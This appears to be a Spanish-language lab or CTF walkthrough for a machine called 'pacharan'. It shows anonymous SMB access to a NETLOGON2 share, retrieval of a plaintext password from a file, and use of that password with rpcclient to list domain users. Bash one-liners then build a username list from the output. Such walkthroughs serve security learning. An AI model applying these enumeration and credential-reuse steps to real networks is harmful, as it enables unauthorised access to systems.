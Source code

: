 
===========================================================================================================================================================================
┌──(kali㉿kali)-[~/Documents/pacharan]
└─$ smbclient \\\\192.168.69.69\\NETLOGON2 -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jul 31 13:25:34 2024
  ..                                  D        0  Wed Jul 31 13:25:34 2024
  Orujo.txt                           A       22  Wed Jul 31 13:25:55 2024

                7735807 blocks of size 4096. 4733146 blocks available
smb: \> get Orujo.txt
getting file \Orujo.txt of size 22 as Orujo.txt (3.6 KiloBytes/sec) (average 3.6 KiloBytes/sec)
smb: \> exit
                                

===========================================================================================================================================================================
┌──(kali㉿kali)-[~/Documents/pacharan]
└─$ cat Orujo.txt           
Pericodelospalotes6969  

===========================================================================================================================================================================
                                                                                                                 
┌──(kali㉿kali)-[~/Documents/pacharan]
└─$ rpcclient -U "Orujo%Pericodelospalotes6969" 192.168.69.69         


rpcclient $> enumdomusers
user:[Administrador] rid:[0x1f4]
user:[Invitado] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[Orujo] rid:[0x44f]
user:[Ginebra] rid:[0x450]
user:[Whisky] rid:[0x452]
user:[Hendrick] rid:[0x453]
user:[Chivas Regal] rid:[0x454]
user:[Whisky2] rid:[0x457]
user:[JB] rid:[0x458]
user:[Chivas] rid:[0x459]
user:[beefeater] rid:[0x45a]
user:[CarlosV] rid:[0x45b]
user:[RedLabel] rid:[0x45c]
user:[Gordons] rid:[0x45d]
rpcclient $>



* Extrae solo los nombres de los Usuarios
```bash
cat userK.txt | grep -oP '\[.*?\]' | grep -v "0x" | tr -d '[]' | sponge userK.txt 
```

```bash
cat userK.txt | grep -oP '(?<=\[).*?(?=\])' | grep -v "0x" > usuarios_limpios.txt
```
